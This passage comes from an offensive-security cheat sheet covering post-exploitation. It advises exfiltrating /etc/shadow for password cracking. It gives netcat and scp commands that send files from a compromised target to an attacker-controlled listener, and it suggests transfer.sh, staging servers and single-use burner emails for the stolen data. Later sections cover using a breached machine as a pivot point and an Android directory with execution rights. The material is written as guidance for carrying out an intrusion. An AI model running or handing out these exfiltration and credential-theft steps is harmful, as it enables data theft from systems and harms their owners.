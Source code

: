 If possible, /etc/shadow could be exfiltrated then run through password crackers such as [John the Ripper](#john-the-ripper) or run against a rainbow table

### Exfiltrating Files

#### Netcat

Files could be sent to a location via netcat if the other side has a netcat listener that feeds into a file. 

Listener:
`nc -knlp PORT > FILETOSAVETO`
Client:
`cat FILETOUPLOAD | nc LISTENERIP PORT`

#### SCP

If ssh credentials/keys are on hand, scp can be used to move files to/from the target, even if this specific box is not connected to the internet (but you still have a connection path to it).  

Download to:
`scp FILETOSEND USER@TARGET:PATHTOSTORE`
Exfil from:
`scp USER@TARGET:PATHTOGETFILE PATHTOSTOREONLOCALMACHINE`

#### File Sharing Sites

Files could also be uploaded to a file sharing site so long as the generated URL is communicated to the / the location is predetermined

- transfer.sh is easy to use from command line using curl's --upload-file option

#### Uploading to Server

Files could be uploaded to a [staging server](#staging-servers) which downloads any files it recieves to a directory.

#### Burner Emails

Files could be sent to burner emails that were made just for this mission. Do not reuse burner emails, they're called burner for a reason.  

#### Payload

[Payload Generator](#payload-generator) has a payload for exfiltrating files via nc

### Utilizing as a Pivot Point

After gaining access to a device on a network, it ~~may have~~ likely has more permissions than you as an outside attacker. As such, the device can be used as a pivot point to gain more insight about the network and compromise more devices on the network. 

For example, [wireshark](#wireshark) might be able to be run within the network now. Which may give valuable information.

### Key Directories

#### Android

Since I constantly forget where this is (may expand in future) : ) 
- `/data/local/tmp` has execution privileges. 
****************************************************************

